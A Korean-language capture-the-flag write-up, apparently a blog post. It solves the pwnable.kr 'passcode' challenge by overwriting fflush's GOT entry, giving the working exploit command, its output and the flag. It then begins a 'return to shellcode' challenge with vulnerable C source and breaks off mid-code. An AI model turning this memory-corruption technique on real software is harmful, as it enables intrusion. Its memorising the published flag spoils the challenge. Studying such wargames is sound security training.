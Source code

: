 본 코드와 비교를 해보면 다음의 코드를 수행하는 어셈블리 코드라고 추측할 수 있다.

```c
system("/bin/cat flag");
```

0x80487af 주소에 담긴 값을 확인해 보니 "/bin/cat flag"가 맞다.

```
gdb-peda$ x/s 0x80487af
0x80487af:      "/bin/cat flag"
```

즉 만약 0x080485e3 부분으로 프로그램의 흐름을 바꾼다면,fflush가 수행되지 않고 바로 system("/bin/cat flag")가 수행되는 것이다.

### exploit
이제 내용을 정리하여 exploit을 해보자

1. welcome() 함수에서 name[100]에 입력되는 값을 입력 받을 때, dummy[96] + "fflush의 got"주소를 입력해 준다.
2. scanf로 입력받을 때, 0x80485e3이 입력되게 해준다. 그러면 fflsh의 got에 해당 값이 입력되게 되고 fflush를 수행하면 0x80485e3부터 프로그램이 실행된다.

이때 scanf에서 입력받는 값은 %d로 저장하기 때문에 10진수로 바꿔서 입력해줘야 한다.
0x80485e3이 메모리에 저장되려면 10진수로는 134514147이다.

![image](https://user-images.githubusercontent.com/33647663/168552731-9d4af856-f5aa-48e3-9985-4f1b3b4a0311.png)


```sh
passcode@pwnable:~$ (python -c 'print("A"*96+"\x04\xa0\x04\x08")';cat) | ./passcode
Toddler\'s Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
134514147
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

**flag**는 다음과 같다.

```
Sorry mom.. I got confused about scanf usage :(
```




# 시스템 - 2

**[return to shellcode](https://dreamhack.io/wargame/challenges/352/)**

이번 시스템 문제는 canary가 설정된 상태에서 bof 취약점을 이용하여 flag를 획득하는 문제이다.

```c
#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

```